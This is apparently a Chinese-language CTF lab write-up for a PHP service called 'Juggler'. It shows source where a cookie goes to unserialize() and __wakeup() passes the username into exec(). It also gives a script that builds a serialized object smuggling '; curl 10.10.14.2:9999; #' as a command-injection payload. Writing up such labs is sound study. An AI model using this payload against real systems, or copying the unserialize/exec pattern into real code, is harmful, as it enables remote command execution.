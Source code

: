 # Juggler

## Web Service PHP 反序列化

```php title="index.php"
<?php
require_once('User.php');

if (isset($_POST['username']) && isset($_POST['password'])) {
    $user = $_POST['username'];
    $pass = $_POST['password'];

    if (strcmp($user, $username) == 0 && strcmp($pass, $password) == 0 ) {
        $logged = true;
    } else {
        $logged = false;
        $msg = "Invalid Credentials";
    }
}
?>
```

```php title="User.php"
<?php
$username = "admin";
$password = "EKkrcTUw+pq0sJHWU4zG7g==";

class User {
    public $username;
    public $id;

    public function __construct($username) {
        $this->username = $username;
        $this->id = "1000";
    }

    public function __wakeup() {
        $this->id = exec("id -u" . $this->username);
    }

}
```

```php title="home.php"
<?php
if (isset($_COOKIE['data'])) {
    $user = unserialize($_COOKIE['data']);
} else {
    $user = new User(system('whoami'));
    setcookie('data',  serialize($user), time() + 3600);
}
echo "<p>System Administrator (SYSADM) -" . $user->username . "(" . $user->id . ")</p>";
?>
```

从 `/home.php` 的 Cookie data 入手，打反序列化就行

:::warning

记得反序列化载荷里面有分号，需要编码一下

:::

```php
<?php
class User {
    public $username;
    public $id;
    public function __construct($username) {
        $this->username = $username;
        $this->id = "1000";
    }
    public function __wakeup() {
        $this->id = exec("id -u " . $this->username);
    }
}

// 构造恶意对象
$maliciousUser = new User("; curl 10.10.14.2:9999; #");
$serializedData = serialize($maliciousUser);

echo $serializedData;
?>
```

[codwer-labs/attack_defense/php_unserialization.md](https://github.com/JCernei/codwer-labs/blob/2db74d914e377afaa342c444aa6dc396badfaa26/attack_defense/php_unserialization.md)
